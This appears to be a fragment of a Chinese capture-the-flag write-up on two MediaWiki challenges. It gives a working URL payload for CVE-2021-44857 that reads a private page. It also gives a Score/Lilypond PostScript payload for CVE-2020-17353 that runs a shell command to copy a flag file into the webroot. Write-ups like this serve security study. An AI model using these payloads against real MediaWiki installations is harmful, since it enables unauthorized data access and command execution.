 > 这样做失败率太高。应该可以获得所有被填充了黑色的表格的坐标，然后自己编写脚本生成位图



# 私有笔记

## 知识与你分享

参考：https://www.mediawiki.org/wiki/2021-12_security_release/FAQ/zh

`首页`的`old_id`是`1`，是公开的
`flag`的`old_id`是`2`，是私有的

需要访问公开页面来利用`CVE-2021-44857`

paypload 为`index.php?title=首页&action=mcrundo&undoafter=2&undo=1`
![](./assets/mediawiki-1.png)

## 来我家做客吧

参考：https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory

利用了`CVE-2020-17353`

将包含执行系统命令的`PostScript`代码嵌入到`Score`标签中的`Lilypond`文本中

```
<score raw="0">
ringsps = #"
(%pipe%cp /flag2 /var/www/html/flag2) (w) file
"
rings = \markup {
  \with-dimensions #'(-0.2 . 1.6) #'(0 . 1.2)
  \postscript #ringsps
}
\relative c'' {
  c2^\rings
  a2_\rings
}
</score>
```
